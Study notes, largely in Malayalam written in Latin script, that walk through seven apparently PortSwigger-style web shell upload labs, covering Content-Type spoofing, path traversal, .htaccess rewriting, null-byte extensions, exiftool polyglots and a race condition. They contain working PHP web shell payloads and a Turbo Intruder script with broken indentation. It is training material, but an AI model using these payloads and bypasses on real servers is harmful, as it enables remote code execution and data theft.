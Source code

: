 -->A `web shell` is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint. 
-->If you're able to successfully upload a web shell, you effectively have full control over the server. This means you can read and write arbitrary files, exfiltrate sensitive data, even use the server to pivot attacks against both internal infrastructure and other servers outside the network

     Lab-1(Remote code execution via web shell upload)
-->ivide namal aadyam wiener:peter aayi keranam
-->enit namude account il puthiya avatar add chyan ulla option undakum
-->so upload option upayogich puthiya image upload chyuka
-->ini thirich my account il poi nokiyal kanam namude avatar avide kanikum
-->ini burp history il pokuka.avide /POST avatar, athupole GET avatar um kanam
-->athayath namal upload chythathum pine upload chythathin shesham aa image namude retireve chyth tharunathum(ee GET req kitan burp il image req tick idanam)
-->ini enth chyanamenal ee rand request repeater il iduka
-->enit /POST avater request il nokiyal kanam ee kodukuka image oru form roopathil aan pokunath.so athil filename=cat.jpg ennayirikum undavuka.so ath mati filename=exploit.php enn kodukuka enit aa image inte valiya oru formatum undakum.ath clear chyuka enit avide - 
           <?php echo file_get_contents('/home/carlos/secret'); ?>
	enna content kodukuka
-->ini namude mate /GET request il poi - GET /files/avatars/expoloit.php HTTP/1.1 enn kodukuka apol namude aa php code il enthano koduthath ath execute aayikolum
-->NOTE: ivide php file execute chyunond aan ee rethiyil exploit chyan kazhinjath
-->nerthe php code aakunilegi ith try chyth noku:
                       <?php echo system($_GET['command']); ?>
                       <?php echo system($_GET['ls']); ?>


       Lab-2( Web shell upload via Content-Type restriction bypass)
-->ivide engane aan chyunathenal content-type: header exploit chythitan
-->chela samayangalil server content-type: enna header nokiyan validate chyuka.so ivide namal .php file idunu apol automatic aayi application/php enn content-type kanikum.apol ath namal image/jpeg enn aki koduth send chythal mathi
-->so nerthe pole oru php file undakuka enit athil -            <?php echo file_get_contents('/home/carlos/secret'); ?> .enn kodukuka 
-->file upload chyuka apol error kanikum.image/jpeg type mathrame aaku enn kanikum
-->so nammal onukoodi upload chyuka.ipol intercept chyuka.enit athil content-type:application/php ennath image/jpeg enn akuka enit send adikumbil response kanam upload aayi en
-->ini thirich aa image il poit inspect element adikuka apol athinte sourse src= file kanikum.so aa file il poi nokiyal kanam aa php code inte result so aayi

      Lab-3( Web shell upload via path traversal)
-->ivide nerthe pole alla.nerthe rand lab ilum namal upload chyuna php file server execute chyth tharunund.ivide angane chyunila pakaranam athile content athpole display chyth tharunu enn mathram
-->so namal exploit.php enna file upload chyumbol polum server oru error um tharunila
-->enit aa pathilek poyal aa php code angane thane display chyth tharum
-->so ee avatar upload chyuna /POST request edukuka enit athil - Content-Disposition: form-data; name="avatar"; filename="exploit.php"  enn kanum
-->so ivide filename="../exploit.php" enn koduth ee file parent directory il idan patumon nokuka.apol response 200 ok enn kanikumengilum ../ enn kanikila so athinartham ath path traversal aayi upload nadanitila ennan
-->so ini enth venamenal ../ ennath url encode chyth ..%2f ennakuka.ini send adikumbol response il 200 ok ..%2fexploit.php enn kanikum.
-->==nammal ingane parent directory il idunath enthinanenal current directroyil file execute chyunila.pakarnam parent directory il file idumbol server aa file execute chyan sadhyatha und==
-->so ini namal aa upload chytha image site il ninum nokuka.inspect element adich src=" /files/avatars/..%2fexploit.php" edukuka.enit aa path ilek poyal aa file execute cyunathayi kanam.so aayi

     Lab-4(Web shell upload via extension blacklist bypass)
-->==The .htaccess (Hypertext Access) file is an Apache distributed server configuration file. You can use the .htaccess file to set server configurations for a specific directory.You can use the .htaccess file to modify various configurations and thus make changes to your website. These changes include authorization, error handling, redirects for specific URLs, user permissions, etc==
-->ivide namuk php file upload chyan patila.error varuna response il nokumbol kanam-Server: Apache/2.4.41 (Ubuntu) enn.so apache aan server enn namal manasilaki.ini namal mumbathe point il kandu .htaccess file oru directory il aaki server configuration chyan patumenath.so namal enth chyanamenal `.shell` enna extension varuna files oke php execute chyunathpole execute chyanam enna oru configuration ee .htaccess file il undakunu.apol pine namuk exploit.php enn itt upload chyunathin pakaram exploit.shell enn ittal mathi php execution thane nadanolum
-->so aadyam oru normal image upload chyuka
-->ini exploit.php enna file upload chyuka apol error varum athupole server ine patti disclose chythathum kanum
-->ini filename="exploit.php" ullath mati filename=".htaccess" ennakuka.athinte thazhe -  <?php echo file_get_contents('/home/carlos/secret'); ?> enna exploit.php file inte content maati ->AddType application/x-httpd-php .shell (.josu,.shajan enthum kodukam).ennu kodukuka.ith namal .htaccess file il kodukuna configuration aan.apol enth sambavikumenal ini .shell enna extension varuna files upload aakumbol automatic aayi ith php execution aayitan bhaviyil execute chyapeduka
-->ini ith send chyuka.apol 200 OK kanam.athinartham aa directoryil ee .htaccess file upload aayitund
-->ini namal undo adich nerthe exploit.php upload request il thane thirich varuka.enit filename="exploit.shell" enn kodukuka.content -><?php echo file_get_contents('/home/carlos/secret'); ?> thane aano en urap varuthuka.eni send adichal aa file upload aakum. ini namal files/avatar/exploit.shell pathilek poyal aa php code run aakum angane carlos inte secret kanan patum.aayi

    Lab-5(Web shell upload via obfuscated file extension)
-->ivide namal aadyam oru normal image upload chyuka.enit athile /POST and /GET request edukuka.athayath upload chyuna image inte request um athinu shesham aa same image namuk retireve chyunathum.ella lab ilum ingane thane aan chyunath
-->ini upload chyumbol namuk kanam error varunath
-->so filename="exploit.php" ennath namal "exploit.php%00.jpg" ennakunu.null byte injection aan chythath
-->ipol response il kanam `The file avatars/exploit.php has been uploaded` enn. null byte aayathkond baaki automatic aayi remove aayi
-->ini namal files/avatar/exploit.php il poyal carlos inte secret kitum.aayi

    Lab-6(Remote code execution via polyglot web shell upload)
-->chela samayangalil server oru file ile content thane analyze chyum genuine aano enariyan.ie image file il dimensions undakum apol dimensions ilatha file aannengil reject chyum
-->so ivide namal exiftool enna tool use chyth venduna image file ile meta datas modify chyunu
-->so ->exiftool bg.jpg ennadikumbol aa image file ile meta data kanikum
-->ini ->exiftool -commen="hello" bg.jpg ennadichit pinem ->exiftool bg.jpg adichu nokiyal puthiya oru comment kanan patum
-->so namal enth chyunu enal ee commentile hello value in pakaram oru php code athil kodukunu angane namuk carlos inte secret code kandupidikam
-->exiftool -Comment="<?php echo '################# ' . file_get_contents('/home/carlos/secret') . ' #########################'; ?>" bg.jpg -0 webshell.php
-->ivide #### ennu itathu enthinanenal peten manasilakan aanu evide aan secret code vanathen ariyan
-->ingane php code koduthathin shesham ath mattoru file il akuka(ie webshell.php). ingane chyumbol ath oru polyglot file aayi mari ie .php extension und but ullil athoru jpg file aan.so server in oru samshayavum undakila.ini ee webshell.php file upload chyuka enit /files/avatar/webshell.php enn path il repeateril poi nokiyal kanam responsil ###########   secretcode  #########   .aayi

     Lab-7(Web shell upload via race condition)
-->ivide namal upload chyuna files server avarude thane reethiyil validate chyunu.enit validation pass chyunilengi ath remove chyunu.chelapo server oru prathyeka sandbox il file kondupoi idum enit avide vech analuse chythite accept chyy
-->ingane analyse chyuna aa samayam kond namuk exploitation nadathanam.ie race aayi file kore upload chyanam apol server in ellam validate chyan patanamenila
-->ivide namal aadyam satharana pole oru normal file upload chyunu
-->ini turbo intruder extension install chyanam
-->ini expoit.php enna file upload chyanam apol error varum but kozhapamila.namuk enthayalum ee request vendathan
-->ini /GET /files/avatars/exploit.php enna request edukuka.right click chyth turbo intruder ilek send chyuka
-->enit enth venamenal oru python code und ath add kodukanam.enit aadyam /POST filename="exploit.php" enna reqeust kodukanam.pine athin shehsam thazhe aayi /GET /files/avatar/exploit.php enna request um koduth script add chyanam.enit start attack kodukumbol kanam ee same exploit.php enna file upload chyunath chara para aayi send aakunath apol server in elam validate chyan patila angane ee file execute aakunu server il angane namuk carlos inte secret code kitunu

==============================================================
turbo intruder python code:

      def queueRequests(target, wordlists):
      engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


    def handleResponse(req, interesting):
    table.add(req)
	
==========================================================